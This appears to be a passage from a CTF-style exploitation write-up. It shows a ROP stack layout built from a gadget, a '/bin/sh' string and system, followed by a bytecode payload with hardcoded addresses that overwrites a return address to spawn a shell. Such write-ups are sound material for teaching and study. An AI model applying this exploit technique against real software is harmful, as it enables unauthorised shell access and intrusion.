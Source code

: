 Here is the new stack layout:

| Address                                      | value                                     |
| -------------------------------------------- | ----------------------------------------- |
| Function return address location (`ret+0x0`) | Address of `pop rdi; pop rbp; ret` gadget |
| `ret+0x8`                                    | Address of `/bin/sh` string               |
| `ret+0x10`                                   | \[Anything\]                              |
| `ret+0x18`                                   | Address of `system`                       |
And this time, when testing it in IDA, it actually works!

Now, let's build the payload to actually set up this stack layout.

```
# Hardcoded address constants, obtained by running the binary in IDA 
@flt_gadget_addr f.7FFFF7D0F75B
@flt_system_addr f.7FFFF7C58740
@flt_vb_offset_8 f.7FFFFFFFD738
@flt_bin_sh_addr f.7FFFFFFFDA20

# Encoded string '/bin/sh\0' (appears reversed because of little endian)
@flt_bin_sh_str  f.0068732F6E69622F

# Copy var_buf to safe location (7FFFFFFFD980) using get_loc and put_loc
get_loc 17
put_loc 37

# Offset var_buf by 8 to be able to write at odd-aligned addresses
push_const8 flt_vb_offset_8
put_loc 17

# Overwrite return address with gadget
push_const8 flt_gadget_addr
put_loc 33

# Reset var_buf
get_loc 36
# OG var_buf value is now in loc36 tag
put_loc 16

# Write "/bin/sh" to memory
push_const8 flt_bin_sh_str
put_loc 47

# Write address to stack
push_const8 flt_bin_sh_addr
put_loc 34

# Write system address
push_const8 flt_system_addr
put_loc 35

# Return value
undefined
return
```
